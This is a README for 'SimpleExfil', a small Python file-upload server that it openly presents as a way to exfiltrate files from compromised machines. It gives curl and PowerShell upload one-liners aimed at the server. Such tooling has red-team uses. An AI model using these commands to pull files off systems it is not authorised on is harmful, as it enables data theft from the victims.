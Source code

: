 # SimpleExfil

SimpleExfil lets you exfiltrate your files. This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000.

```
python simpleexfil.py 8000
```

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.

### Enhanced Web UI

This repository now includes a drag-and-drop interface. After starting the
server, open your browser and navigate to `http://127.0.0.1:8000/` to access the
new UI. Drop a file onto the highlighted area or click to choose a file and it
will be uploaded automatically.

## File Storage Behavior

The server uses the base name of the uploaded file when saving to avoid
directory traversal attacks. If a file with the requested name already
exists, a numerical suffix is appended (e.g. `file.txt`, `file_1.txt`,
`file_2.txt`, ...).
